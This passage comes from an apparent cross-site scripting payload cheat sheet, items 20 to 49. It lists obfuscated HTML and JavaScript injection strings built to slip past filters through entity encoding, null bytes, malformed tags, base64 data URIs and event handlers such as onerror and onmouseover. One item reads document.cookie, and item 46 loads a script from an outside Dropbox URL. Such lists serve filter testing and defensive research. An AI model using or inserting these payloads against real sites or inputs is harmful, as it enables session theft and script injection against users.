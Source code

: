 20) </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>

21) <img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>

22) <form><iframe &#09;&#10;&#11; src="javascript&#58;alert(1)"&#11;&#10;&#09;;>

23) <a href="data:application/x-x509-user-cert;&NewLine;base64&NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&#09;&#10;&#11;>X</a

24) http://www.google<script .com>alert(document.location)</script

25) <a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a

26) <img/src=@&#32;&#13; onerror = prompt('&#49;')

27) <style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;

28) <script ^__^>alert(String.fromCharCode(49))</script ^__^

29) </style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-(

30) &#00;</form><input type&#61;"date" onfocus="alert(1)">

31) <form><textarea &#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&#x28;1&#x29;'>

32) <script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/</script /***/

33) <iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>

34) <a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(1)&NewLine;>X</a>

35) <script ~~~>alert(0%0)</script ~~~>

36) <style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>

37) <///style///><span %2F onmousemove='alert&lpar;1&rpar;'>SPAN

38) <img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)

39) &#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>'

40) &#13;<blink/&#13; onmouseover=pr&#x6F;mp&#116;(1)>OnMouseOver {Firefox & Opera}

41) <marquee onstart='javascript:alert&#x28;1&#x29;'>^__^

42) <div/style="width:expression(confirm(1))">X</div> {IE7}

43) <iframe/%00/ src=javaSCRIPT&colon;alert(1)

44) //<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//

45) /*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>

46) //|\\ <script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ </script //|\\

47) </font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>

48) <a/href="javascript:&#13; javascript:prompt(1)"><input type="X">

49) </plaintext\></|\><plaintext/onmouseover=prompt(1)
